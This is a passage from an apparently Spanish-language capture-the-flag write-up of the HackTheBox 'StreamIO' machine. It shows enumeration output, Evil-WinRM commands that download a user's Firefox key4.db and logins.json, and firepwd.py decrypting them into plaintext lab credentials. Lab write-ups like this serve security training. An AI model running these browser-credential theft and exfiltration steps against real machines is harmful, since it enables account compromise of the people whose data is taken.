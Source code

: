 ```   
     .(#######*(#####((##################((######/(*****.((((
     .(###################(/***********(##############().((((
     .((#####################/*******(################)((((((
     .(((############################################).(((((
     ..(((##########################################).((((((
     ....((########################################).((((((
     ......((####################################).(((((((
     (((((((((#################################).((((((((
         (((((((((/##########################).((((((((
               ((((((((((((((((((((((((((((((((((((((
                  ((((((((((((((((((((((((((((((

...[snip]...

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for Firefox DBs
È  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#browsers-history
    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
È Run SharpWeb (https://github.com/djhohnstein/SharpWeb)

...[snip]...

```

Vemos que existen accesos a Firefox con inicios de seciones, con Evil-WinRM podemos descargar los archivos importantes donde esta las credenciales guardadas.
```powershell
*Evil-WinRM* PS C:\Users\nikk37\Documents> download c:/users/nikk37/appdata/roaming/mozilla/firefox/profiles/br53rxeg.default-release/key4.db /opt/streamio/key4.db
Info: Downloading c:/users/nikk37/appdata/roaming/mozilla/firefox/profiles/br53rxeg.default-release/key4.db to /opt/StreamIO/key4.db

                                                             
Info: Download successful!


*Evil-WinRM* PS C:\Users\nikk37\Documents> download c:/users/nikk37/appdata/roaming/mozilla/firefox/profiles/br53rxeg.default-release/logins.json /opt/streamio/logins.json
Info: Downloading c:/users/nikk37/appdata/roaming/mozilla/firefox/profiles/br53rxeg.default-release/logins.json to /opt/StreamIO/logins.json

                                                             
Info: Download successful!

```

Y con la herramienta <a href="https://github.com/lclevy/firepwd" target="_blank">firepwd.py</a> podemos decifrar el contenido almacenado
```ruby
❯ git clone https://github.com/lclevy/firepwd
...[snip]...

❯ mv key4.db logins.json firepwd/

❯ python3 firapwd/firepwd.py

...[snip]...

https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
```
